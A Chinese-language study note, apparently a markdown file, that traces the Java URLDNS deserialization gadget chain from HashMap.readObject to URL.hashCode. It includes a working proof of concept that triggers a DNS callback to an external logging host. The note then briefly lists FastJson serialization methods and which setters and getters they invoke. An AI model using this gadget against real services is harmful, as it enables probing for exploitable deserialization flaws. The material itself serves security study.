




## URLDNS链分析

分析HashMap的readObject方法,发现hash()方法，跟踪



跟踪hash方法，发现hashCode()



查看实现hashCode的类，发现URL类实现hashCode方法


如果hashCode\==-1 证明url没有被哈希，执行hashCode(url)



实现DNS解析

```
new hashmap()
-> hashmap.readobject()
->putVal(hash(key)) (s.readInt()>0)
->key.hashCode() (key!=null)
->url.hashCode() (key=URL)
->handler.hashCode(this) (hashCode==-1)
```

### poc实现

**注意：此处有坑，我们使用put方法向hashMap传入值时，put时url对象的hashCode为默认为-1，由此会进入到触发DNS请求的那个逻辑，也就是说我们在put时就会产生DNS请求 **
**而经过DNS请求之后，url对象的hashCode值就被重新计算，不是初始值-1了。那么接下来序列化时不是-1，反序列化出来自然也不是-1，故实际反序列化时也就不会进行DNS请求。而在我们的DNS平台上收到的请求实际上是put时发出的，会对我们判断目标是否存在反序列化漏洞形成干扰。**
**故此坑的解决方法是：利用反射，在put之前将url对象的hashCode值设值成不为-1，put之后再利用反射，将其设置为-1，这样put时就不会发起DNS请求了。然后将其序列化，再反序列化，反序列化时收到DNS请求。**


```
import java.io.*;  
import java.lang.reflect.Field;  
import java.net.URL;  
import java.util.HashMap;  
  
public class hashcode {  
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {  
        HashMap objectObjectHashMap = new HashMap();  
        URL url = new URL("http://iyzshithjg.yutu.eu.org");  
        Class<? extends URL> aClass = url.getClass();  
        Field hashCode = aClass.getDeclaredField("hashCode");  
        hashCode.setAccessible(true);  
        hashCode.set(url, 0);  
        objectObjectHashMap.put(url, 111);  
        hashCode.set(url, -1);  
        Serialize(objectObjectHashMap);  
        Deserialize("ser.txt");  
  
    }  
    public static void Serialize(Object obj) throws IOException {  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.txt"));  
        objectOutputStream.writeObject(obj);  
    }  
    public static Object Deserialize(String filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));  
        Object o = objectInputStream.readObject();  
        return o;  
    }  
}
```
参考 https://mp.weixin.qq.com/s/R3c5538ZML2yCF9pYUky6g

## FastJson

### 常用方法

1、序列化方法：

JSON.toJSONString()，返回字符串；

JSON.toJSONBytes()，返回byte数组；

2、反序列化方法：

JSON.parseObject()，返回JsonObject；

JSON.parse()，返回Object；

JSON.parseArray(), 返回JSONArray；

将JSON对象转换为java对象：JSON.toJavaObject()；

将JSON对象写入write流：JSON.writeJSONString()；

3、常用：

JSON.toJSONString(),JSON.parse(),JSON.parseObject()

### 安全

1、序列化固定类后：

parse方法在调用时会调用set方法

parseObject在调用时会调用set和get方法

2、反序列化指定类后：

parseObject在调用时会调用set方法


